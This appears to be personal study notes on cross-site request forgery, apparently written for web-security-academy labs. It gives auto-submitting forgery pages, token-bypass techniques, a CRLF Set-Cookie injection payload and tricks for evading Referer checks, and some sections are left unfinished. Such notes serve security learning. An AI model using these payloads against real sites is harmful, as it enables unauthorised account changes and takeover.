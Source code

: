 # CSRF

<details>

<summary>Impact</summary>

* The attacker causes the victim user to carry out an action unintentionally
  * Change password, email, make a funds transfer

<!---->

* If the victim is a privileged user the attacker might be able to take full control of all the application's

</details>

## Conditions

* A relevant action
  * Example: change password
* Cookie-based session handling
* No unpredictable request parameters:
  * If you need to know the value of the existing password -> no vulnerable

## Examples

1. with POST

```html
<html>
    <body>
        <form action="https://vulnerable-website.com/email/change" method="POST">
            <input type="hidden" name="email" value="pwned@evil-user.net" />
        </form>
        <script>
            document.forms[0].submit();
        </script>
    </body>
</html>
```

2. with GET

```html
<img src="https://vulnerable-website.com/email/change?email=pwned@evil-user.net">
```

## Defences

1. CSRF tokens
2. SameSite cookies
3. Referer-based validation

### CSRF tokens bypass

A CSRF token is a unique, secret, and unpredictable value that is generated by the server-side application and shared with the client

```html
<form name="change-email-form" action="/my-account/change-email" method="POST">
    <label>Email</label>
    <input required type="email" name="email" value="example@normal-website.com">
    <input required type="hidden" name="csrf" value="50FaWgdOhi9M9wyna8taR1k3ODOR8d6u">
    <button class='button' type='submit'> Update email </button>
</form>
```

#### Common flaws in CSRF token validation

**Switch from POST to the GET method to bypass**

***

**Remove the entire parameter containing the token**

***

Sometimes you don't need a valid token (the app doesn't keep valid server-side tokens) . Simply **invent a token in the required format**

***

Some apps don't validate if the token belongs to the same session as the requesting user.

Log in to the application with your account, **obtain a valid token**, and then **feed that token to the victim user** in their CSRF attack

***

Some applications do tie the CSRF token to a cookie, but not to the session cookie.&#x20;

So there are two token: one in a cookie and one in hidden input. (this can also have the same value)



Can you set a cookie? Ex. Header injection with `CRLF`.&#x20;

```http
/?search=test%0d%0aSet-Cookie:%20csrfKey=YOUR-KEY%3b%20SameSite=None
```

Log in to the application with your account -> obtain a valid token and associated cookie.

Remove the auto-submit `<script>` block, and add the following code to inject the cookie.

```html
<img src="https://YOUR-LAB-ID.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrfKey=YOUR-KEY%3b%20SameSite=None" onerror="document.forms[0].submit()">
```

***

The app



### SameSite cookies bypass

It determines when a website's cookies are included in requests originating from other websites

## TO DO

### Referer-based validation bypass

Some applications make use of the HTTP Referer header to attempt to defend against CSRF attacks, normally by verifying that the request originated from the application's own domain

* Validation of Referer depends on header being present
  * Some apps validate the Referer header if present, but skip if omitted
  * `<meta name="referrer" content="never">`
* Validation of Referer can be circumvented
  * `http://vulnerable-website.com.attacker-website.com/csrf-attack`
  * `http://attacker-website.com/csrf-attack?vulnerable-website.com`
  * `http://attacker-website.com/vulnerable-website.com`
  * Note 1: add Referrer-Policy: unsafe-url
    * One way to set it in html: `<meta name="referrer" content="unsafe-url" />`
  * Note 2: Firefox 87 new default Referrer Policy ‘strict-origin-when-cross-origin’ trimming user sensitive information like path and query string to protect privacy. (https://blog.mozilla.org/security/2021/03/22/firefox-87-trims-http-referrers-by-default-to-protect-user-privacy/)
  * Note 3: Instead of use http://attacker-website.com/vulnerable-website.com that looks strange you can use http://attacker-website.com/ and add `<script>history.pushState('', '', '/attacker-website.com')</script>`

More info about setting Referer-Policy: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Referrer-Policy
